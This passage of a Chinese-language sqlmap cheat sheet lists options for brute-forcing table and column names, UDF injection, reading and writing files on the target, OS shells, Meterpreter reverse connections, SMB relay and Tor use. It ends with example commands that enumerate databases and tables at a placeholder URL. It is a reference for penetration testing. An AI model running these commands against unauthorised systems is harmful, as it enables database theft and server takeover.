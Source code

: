 #### 5. **Brute-force (暴力破解)**
- `--common-tables`：暴力破解常见表名。
- `--common-columns`：暴力破解常见列名。
- `--brute-force`：使用暴力破解方式尝试其他注入点。

#### 6. **User-defined Function Injection (用户自定义函数注入)**
- `--udf-inject`：注入用户自定义函数。
- `--shared-lib=SHLIB`：指定共享库路径。

#### 7. **Access to the File System (访问文件系统)**
- `--file-read=RFILE`：读取远程文件。
- `--file-write=WFILE`：写入本地文件到远程文件系统。
- `--file-dest=DFILE`：指定远程文件路径。
- `--os-shell`：获得操作系统 Shell。
- `--os-pwn`：获得操作系统访问权限。
- `--os-smbrelay`：执行 SMB 中继攻击。
- `--os-bof`：执行缓冲区溢出攻击。
- `--os-cmd=OSCMD`：执行操作系统命令。

#### 8. **Takeover (接管)**
- `--os-shell`：获得一个操作系统 shell。
- `--os-pwn`：通过 Meterpreter 反向连接获得控制。
- `--os-smbrelay`：进行 SMB 中继攻击。
- `--os-bof`：执行缓冲区溢出攻击。

#### 9. **General (一般)**
- `--batch`：不提示用户确认，自动执行操作。
- `--flush-session`：清除目标 URL 的会话文件。
- `--threads=THREADS`：设置并发线程数。
- `--time-sec=TIMESEC`：设置时间基准延迟时间。
- `--retries=RETRIES`：设置 HTTP 请求重试次数。

#### 10. **Miscellaneous (杂项)**
- `--proxy=PROXY`：使用 HTTP 代理。
- `--tor`：使用 Tor 网络来隐藏 IP。
- `--tor-type=TYPE`：指定 Tor 使用的代理类型 (HTTP, SOCKS4, SOCKS5)。
- `--check-tor`：检测 Tor 是否正常工作。
- `--delay=DELAY`：设置 HTTP 请求之间的延迟时间。
- `--timeout=TIMEOUT`：设置 HTTP 请求超时时间。
- `--safe-url=SAFEURL`：提供安全的 URL 进行请求。
- `--safe-freq=SAFEREQ`：执行指定次数后访问安全的 URL。

#### 11. **Output (输出)**
- `--output-dir=ODIR`：设置输出目录。
- `--disable-coloring`：禁用终端的彩色输出。
- `--parse-errors`：解析 HTTP 响应错误消息。

### 实例操作
- **扫描并枚举数据库：**
  ```bash
  sqlmap -u "http://example.com/vuln.php?id=1" --dbs
  ```
- **扫描并获取当前用户：**
  ```bash
  sqlmap -u "http://example.com/vuln.php?id=1" --current-user
  ```
- **联合查询注入，获取表：**
  ```bash
  sqlmap -u "http://example.com/vuln.php?id=1" --tables
  ```
- **暴力破解数据库表：**
  ```bash
  sqlmap -u "http://example.com/vuln.php?id=1" --common-tables
  ```
